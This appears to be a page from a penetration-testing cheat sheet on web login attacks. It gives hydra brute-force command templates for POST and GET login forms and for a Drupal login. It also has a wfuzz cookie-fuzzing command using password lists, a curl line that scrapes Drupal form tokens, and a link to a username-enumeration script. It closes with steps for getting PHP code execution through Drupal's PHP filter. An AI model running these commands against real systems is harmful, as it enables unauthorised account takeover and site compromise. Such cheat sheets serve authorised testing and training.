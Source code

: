**POST**

```bash
hydra -l (USERNAME) -P /path/to/wordlist.txt (TARGET IP ADDRESS) \
  http-post-form "/URI/path/to/login.php:(HTML FORM USERNAME ATTRIBUTE)=^USER^&(HTML FORM PASSWORD ATTRIBUTE)=^PASS^&Login=Login:(FAILED LOGIN MESSAGE)"
```

**GET**

```bash
hydra -l admin -P /pwnt/passwords/wordlists/rockyou.txt (TARGET IP ADDRESS) \
  http-get-form "/login.php:username=^USER^&password=^PASS^&Login=Login:Please Login|Bad Request"
```

### Fuzzing 

**Cookies** 

```bash
wfuzz -z \
 file,/infosec/SecLists/Passwords/Common-Credentials/10-million-password-list-top-500.txt \
 -b passwd=FUZZ http://(TARGET IP ADDRESS):(TARGET PORT)
```

## Defense 

- Awesome-WAF - A curated list of awesome web-app firewall (WAF) stuff: <https://github.com/0xInfection/Awesome-WAF>

## CMS

### Drupal

- Username Enumeration
  - <https://raw.githubusercontent.com/weaknetlabs/Penetration-Testing-Grimoire/master/Brute%20Force/Tools/drupalUserEnum.py>
- Password Brute-forcing
    ```bash
    curl -s http://drupal.site/user/ | grep form_build_id | cut -d "\"" -f 6
    ```
    ```bash
    hydra -l admin -P /wordlists/rockyou.txt (TARGET DRUPAL IP) \ 
        http-form-post "/?q=user/:name=admin&pass=^PASS^&form_id=user_login&form_build_id=form-uQ6n4rbHr99R2XZirfsxaa3rPmV8xpZjXWsa3-G-8Nw:Sorry
    ```
- PHP Code Execution**
  - Enable​ PHP Filter​ module on the ​ Modules​
  - Add content​ then to ​ Article
  - Pasting PHP into the article body
  - Changing the ​ Text format​ to ​PHP code​
  - Clicking on ​ Preview​
- Tools
  - [Droopescan - https://github.com/droope/droopescan](https://github.com/droope/droopescan)
